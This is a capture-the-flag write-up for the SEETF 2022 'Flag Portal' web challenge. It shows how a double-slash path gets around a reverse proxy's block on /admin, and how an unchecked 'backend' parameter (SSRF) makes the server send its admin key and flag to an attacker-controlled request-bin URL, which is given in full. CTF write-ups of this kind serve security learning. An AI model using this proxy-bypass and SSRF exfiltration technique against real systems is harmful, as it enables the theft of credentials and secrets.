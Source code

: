 ## Challenge Name: Flag Portal (Flag 1)
Author: zeyu2001  
Category: Web  
Points: 100  
Solves: 63  
<br>
>Welcome to the flag portal! Only admins can view the flag for now. Too bad you're behind a reverse proxy ¯\(ツ)/¯<br><br>
Note: There are two flags for this challenge.<br><br>
http://flagportal.chall.seetf.sg:10001

MD5: 0c4f55a57bd99f8438711c3734ccbf4f

[Download Zip File](https://github.com/Team-Rainbow-Hash/seetf-2022-writeups/blob/main/web/Flag%20Portal%20(Flag%201)/files/web_flagportal.zip "Zip File")

### Approach
Opening up the source of the code, more specifically [remap.config](https://github.com/Team-Rainbow-Hash/seetf-2022-writeups/blob/main/web/Flag%20Portal%20(Flag%201)/files/web_flagportal/distrib/proxy/remap.config), we see that there is a page at `http://flagportal.chall.seetf.sg:10001/admin`. However, this page is protected by the proxy that will redirect us to `http://flagportal/forbidden`. Luckily, we can easily bypass this by using `//admin` instead. This gives us a url of `http://flagportal.chall.seetf.sg:10001//admin`, which allows us to access the admin page.

Now that we can access the admin page, what do we do with it? Looking at the source code of the page in the [flagportal/server.rb](https://github.com/Team-Rainbow-Hash/seetf-2022-writeups/blob/main/web/Flag%20Portal%20(Flag%201)/files/web_flagportal/distrib/flagportal/server.rb), we see the following code regarding the admin page.
```rb
elsif path == '/admin'
            params = req.params
            flagApi = params.fetch("backend", false) ? params.fetch("backend") : "http://backend/flag-plz"
            target = "https://bit.ly/3jzERNa"

            uri = URI(flagApi)
            req = Net::HTTP::Post.new(uri)
                req['Admin-Key'] = ENV.fetch("ADMIN_KEY")
                req['First-Flag'] = ENV.fetch("FIRST_FLAG")
                req.set_form_data('target' => target)

                res = Net::HTTP.start(uri.hostname, uri.port) {|http|
                http.request(req)
            }
```

Reading the code snippet, we realise a request with the first flag and admin key will be sent the the flagapi. We also see that the flagapi variable can be controlled by our url query paramters. It operates on the logic of setting it to `http://backend/flag-plz` unless we specify something else. 

Thus, we can set up a [requst bin](https://requestbin.com/) to recieve requests. To have the request sent to our request bin, we can set the url to be `http://flagportal.chall.seetf.sg:10001//admin?backend=enptarvw3f9y7.x.pipedream.net`. Note that the url you feed to the page should be a HTTP, not HTTPS, or it will error, giving you `400 Bad Request` and `The plain HTTP request was sent to HTTPS port`.

Now that the flag and admin key has been sent to the request bin, let's check them out!
![img](https://github.com/Team-Rainbow-Hash/seetf-2022-writeups/blob/main/web/Flag%20Portal%20(Flag%201)/files/Request.png "Image")

This gives us the flag to be `SEE{n0w_g0_s0lv3_th3_n3xt_p4rt_bf38678e8a1749802b381aa0d36889e8}` and admin key to be `spendable-snoring-character-ditzy-sepia-lazily`. Hooray! Now we can move on to part 2 of the challenge. Check out our writeup for that [here](https://github.com/Team-Rainbow-Hash/seetf-2022-writeups/blob/main/web/Flag%20Portal%20(Flag%202)/Flag%20Portal%20(Flag%202).md)!

### Flag
`SEE{n0w_g0_s0lv3_th3_n3xt_p4rt_bf38678e8a1749802b381aa0d36889e8}`

---
[Back to home](https://github.com/Team-Rainbow-Hash/seetf-2022-writeups)